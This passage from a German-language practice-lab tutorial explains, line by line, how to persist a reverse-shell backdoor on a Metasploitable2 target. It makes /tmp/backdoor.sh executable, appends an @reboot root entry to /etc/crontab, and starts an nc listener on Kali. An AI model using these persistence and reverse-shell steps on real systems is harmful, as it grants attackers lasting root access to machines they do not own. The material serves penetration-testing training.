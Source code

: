 **Datei ausführbar machen:**
`chmod +x /tmp/backdoor.sh`
- `chmod`: ändert Zugriffsrechte einer Datei.
    - `+x`: fügt Ausführungsrecht (`execute`) hinzu, entscheiden, da sonst das System das Skript nicht startet.

**Erstellen einer persistenten Aufgabe:**
`echo "@reboot root /tmp/backdoor.sh" >> /etc/crontab`
- `echo "..."`: Gibt den Cron-Job-Eintrag aus.
- `@reboot`: spezielle Zeitangabe in `crontab`-Datei.
    - bedeutet, dass nachfolgender Befehl jedes Mal ausgeführt wird, wenn das System neu gestartet wird.
- `root /tmp/backdoor.sh`: Gibt an, dass der Befehl als `root`-Benutzer ausgeführt werden soll und ruft das Skript `backdoor.sh` auf.
- `>> /etc/crontab`: Hängt den neuen Eintrag am Ende der System-Crontab-Datei an.

**Was der Befehl als Ganzes tut**

Diese Befehlskette automatisiert die Erstellung einer Reverse Shell, die dauerhaft auf dem Zielsystem persistiert. Der Angreifer muss lediglich auf seinem System einen Listener (z. B. mit `nc -lvnp 4444`) starten. Beim nächsten Neustart des infizierten Systems wird die `backdoor.sh` automatisch ausgeführt und stellt die Verbindung zum Angreifer her, der dann vollen Zugriff auf die Shell hat.

Mit dem Befehl `cat /tmp/backdoor.sh` kannst du die Datei anzeigen lassen. Gib dazu einfach im Terminal folgenden Befehl ein:
```
cat /tmp/backdoor.sh
```

![Backdoor-Bash-Script anzeigen](/09-practice-labs/ressourcen/pictures/metasploitable2/metasploit-vsftpd13.png)


3. Starte Listener auf Kali:
```bash
nc -lvnp 4444
```

![Backdoor erstellen](/09-practice-labs/ressourcen/pictures/metasploitable2/metasploit-vsftpd12.png)

Beim nächsten Reboot von Metasploitable2 verbindet sich die Shell zu deinem Kali.
